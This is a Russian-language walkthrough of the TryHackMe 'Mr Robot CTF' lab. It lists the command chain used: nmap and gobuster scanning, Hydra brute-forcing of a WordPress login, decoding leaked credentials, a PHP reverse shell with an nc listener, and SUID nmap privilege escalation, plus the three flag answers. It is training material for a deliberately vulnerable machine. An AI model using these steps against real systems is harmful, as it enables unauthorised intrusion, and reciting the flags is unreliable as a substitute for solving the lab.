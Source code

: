 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Mr Robot CTF](https://tryhackme.com/r/room/mrrobot) 

Всего 2 задания:
## Задание 1
Для развертывания виртуальной машины Mr. Robot вам сначала необходимо подключиться к нашей сети.

### Ответьте на вопросы ниже
Подключаемся к нашей сети с помощью OpenVPN. Вот мини-руководство по подключению:

Перейдите на страницу доступа и загрузите файл конфигурации.
```commandline
Ответ не нужен
```

Используйте OpenVPN-клиент для подключения. В моем примере я работаю на Linux, на странице доступа у нас есть 
руководство для Windows. 
(измените «ben.ovpn» на ваш конфигурационный файл)

При запуске вы увидите много текста, в конце будет написано Initialization Sequence Completed.
```commandline
Ответ не нужен
```
Вы можете убедиться, что вы подключены, посмотрев на страницу доступа. Обновите страницу

Вы должны увидеть зеленую галочку рядом с Connected. Она также покажет вам ваш внутренний IP-адрес.
Теперь вы готовы использовать наши машины в нашей сети!
```commandline
Ответ не нужен
```
Теперь при развертывании материала вы увидите внутренний IP-адрес вашей виртуальной машины.
```commandline
Ответ не нужен
```

## Задание 2
Можно ли получить root-доступ к этой машине в стиле Mr. Robot? Это виртуальная машина, предназначенная для 
начинающих/продвинутых пользователей. На машине есть 3 скрытых ключа, можете ли вы их найти?

Спасибо Леону Джонсону за создание этой машины. Эта машина используется здесь с явного разрешения создателя <3 

### Ответьте на вопросы ниже
Что такое ключ 1?
```commandline
nmap -sC -sV -Pn <IP>
gobuster dir --url http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
http://<IP>/robots.txt
cat robots.txt
cat password.raw-md5
# abcdefghijklmnopqrstuvwxyz
su robot
cat key-1-of-3.txt
```
```commandline
073403c8a58a1f80d943455fb30724b9
```
Что такое ключ 2?
```commandline
http://<IP>/wp-login.php
hydra -L fsocity.dic -p 123453453 {IP} http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username”
http://<IP>/license
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
# elliot:ER28–0652
https://github.com/pentestmonkey/php-reverse-shell
nc -lnvp 4444
python -c ‘import pty;pty.spawn(“/bin/bash”)’
cat /home/robot/key-2-of-3.txt
```
```commandline
822c73956184f694993bede3eb39f959
```
Что такое ключ 3?
```commandline
sudo -l
find / -perm -u=s -type f 2>/dev/null
nmap --interactive
!sh
cat key-3-of-3.txt
```
```commandline
04787ddef27c3dee1ee161b21670b4e4
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)